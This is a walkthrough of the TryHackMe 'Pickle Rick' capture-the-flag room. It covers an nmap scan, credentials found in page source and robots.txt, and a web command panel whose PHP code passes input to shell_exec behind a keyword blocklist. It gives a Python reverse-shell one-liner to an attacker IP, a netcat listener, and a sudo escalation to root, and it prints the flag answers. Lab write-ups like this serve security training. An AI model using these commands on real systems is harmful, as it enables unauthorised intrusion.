




<p align="center"></p>
<h1><p align="center">Pickle Rick</p></h1><h2><p align="center">A Rick and Morty CTF. Help turn Rick back into a human!</P></h2>

### Room Link: [THM-Pickle Rick](https://tryhackme.com/room/picklerick) 

So I began with nmap scan and port 22,80 is open.
```bash 
$ sudo nmap -T4 -sC -sS 10.10.51.178 >nmap.out
```
<p align="center"></p>

Lets visit the website on port 80 and Nothing intresting and after inspecting the source code there was a comment which had something intresting
```Username: R1ckRul3s```. Since its a website its worth checkcing robots.txt file, Weirdly it contains some random string ```Wubbalubbadubdub```.
Since it mentioned something about login there is a good chance of a login page of some sort on website. So lets check for login.php and there it is.
now i tired to brute force it with the username obatined before but after some time I recalled there was a weird text in robots.txt file
With that as password and we are in!

<p align="center"></p>

We have a Command Panel which reveals some intresting files, But we can't read with ```cat```. So next I tried with ```grep -r .``` 
which will display contains of everything present in the directory. Looking around all I found firt ingredient
``` Sup3rS3cretPickl3Ingred.txt:mr. meeseek hair ```

<p align="center"></p>

While looking further I found list of blacklisted commands.
```php
<?php
      function contains($str, array $arr)
      {
          foreach($arr as $a) {
              if (stripos($str,$a) !== false) return true;
          }
          return false;
      }
      // Cant use cat
      $cmds = array("cat", "head", "more", "tail", "nano", "vim", "vi");
      if(isset($_POST["command"])) {
        if(contains($_POST["command"], $cmds)) {
          echo "</br><p><u>Command disabled</u> to make it hard for future <b>PICKLEEEE RICCCKKKK</b>.</p>";
        } else {
          $output = shell_exec($_POST["command"]);
          echo "</br><pre>$output</pre>";
        }
      }
    ?>
```
Then I found a base64 string which turned out to be a Rabbit Hole! **ClASSIC**
<p align="center"></p>

So I went back to Command Panel and thought to get a reverse shell. So Best options were using some one-liners.

Since I tried python code to check it is present so I got a pyhton one-liner from [Pentest Monkey Resverse Shell-Cheat-Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).
```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.155.126",8000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Listen on our machine.
 ```bash 
 $ nc -nlvp 8000
 ```
 We have a shell, stablize it with 
 ``` python
 python3 -c 'import pty;pty.spawn("/bin/bash")'
 ```
 And second ingredient was found 
 ```bash
www-data@ip-10-10-60-162:/home/rick$ cat second\ ingredients           
cat second\ ingredients
1 jerry tear
```
After this I checked sudo permissions and found it has sudo access.
```bash
www-data@ip-10-10-60-162:/tmp$ sudo -l
sudo -l
Matching Defaults entries for www-data on
    ip-10-10-60-162.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-60-162.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```
So sudo into root and cat out final ingredient in file.
```bash
root@ip-10-10-60-162:~# ls
ls
3rd.txt  snap
root@ip-10-10-60-162:~# cat 3rd.txt
cat 3rd.txt
3rd ingredients: fleeb juice
```
**With that We have the root on Pickle Rick !!**
